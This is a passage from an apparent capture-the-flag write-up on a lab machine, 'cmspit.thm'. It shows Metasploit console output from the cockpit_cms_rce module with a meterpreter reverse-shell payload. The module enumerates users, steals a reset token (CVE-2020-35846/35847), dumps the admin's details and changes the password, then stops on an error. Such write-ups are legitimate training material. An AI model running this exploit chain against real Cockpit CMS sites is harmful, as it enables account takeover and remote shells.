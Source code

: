 ```highlight


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf6 exploit(multi/http/cockpit_cms_rce) > 
```

I ran the module and was able to find 4 users, however the module then failed as a user was required.

```highlight
msf6 exploit(multi/http/cockpit_cms_rce) > run

[*] Started reverse TCP handler on <Local Machine>:4444 
[*] Attempting Username Enumeration (CVE-2020-35846)
[+]   Found users: ["admin", "darkStar7471", "skidy", "ekoparty"]
[-] Exploit aborted due to failure: bad-config: cmspit.thm:80 - User to exploit required
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/cockpit_cms_rce) > 
```

I set user to admin and ran the module again.

```highlight
msf6 exploit(multi/http/cockpit_cms_rce) > set user admin
user => admin
msf6 exploit(multi/http/cockpit_cms_rce) > run

[*] Started reverse TCP handler on <Local Machine>:4444 
[*] Attempting Username Enumeration (CVE-2020-35846)
[+]   Found users: ["admin", "darkStar7471", "skidy", "ekoparty"]
[*] Obtaining reset tokens (CVE-2020-35847)
[+]   Found tokens: ["rp-d72d501f6207ac757ac3cb114d1a0a4760a88abe28f23"]
[*] Checking token: rp-d72d501f6207ac757ac3cb114d1a0a4760a88abe28f23
[*] Obtaining user info
[*]   user: admin
[*]   name: Admin
[*]   email: admin@yourdomain.de
[*]   active: true
[*]   group: admin
[*]   password: <REDACTED>
[*]   i18n: en
[*]   _created: 1621655201
[*]   _modified: 1621655201
[*]   _id: 60a87ea165343539ee000300
[*]   _reset_token: rp-d72d501f6207ac757ac3cb114d1a0a4760a88abe28f23
[*]   md5email: a11eea8bf873a483db461bb169beccec
[+] Changing password to <REDACTED>
[+] Password update successful
[*] Attempting login
[-] Exploit failed: ArgumentError wrong number of arguments (given 3, expected 1..2)
[*] Exploit completed, but no session was created.
```